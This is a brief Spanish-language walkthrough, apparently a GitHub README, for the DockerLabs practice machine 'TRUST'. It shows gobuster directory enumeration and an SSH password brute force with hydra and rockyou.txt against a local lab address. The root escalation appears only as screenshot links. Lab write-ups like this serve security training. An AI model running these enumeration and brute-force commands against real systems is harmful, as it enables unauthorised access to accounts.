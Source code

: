 # TRUST
Primera maquina de dockerlabs

primero ocupamos instalar esto para que las listas de palabras esten en la ubicacion correcta si esque no la tuviesen
sudo apt-get install seclists 
Después de la instalación, verifica la ubicación de la lista de palabras. Puedes usar el siguiente comando para encontrar la ubicación exacta:
dpkg -L seclists | grep Web-Content
Actualiza la ruta en tu comando: Una vez que tengas la ubicación correcta, actualiza la ruta en tu comando gobuste
sudo gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "http://172.17.0.2/" -x .php,.sh,.py,.txt

Obtenemos un directorio de una pagina al entrar nos sale el nombre de MARIO es el de la cuenta entonces usamos hydra
sudo apt install hydra
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
y luego entramos con el usuario y contrase;a
![image](https://github.com/juniordurval/TRUST/assets/160273751/54387ad9-f2a6-46a8-8f1c-5d46c3574ed6)
y por ultimo nos pasamos a root 
![image](https://github.com/juniordurval/TRUST/assets/160273751/08d9c3e6-ba68-4df0-8b90-cc60b3bfa497)

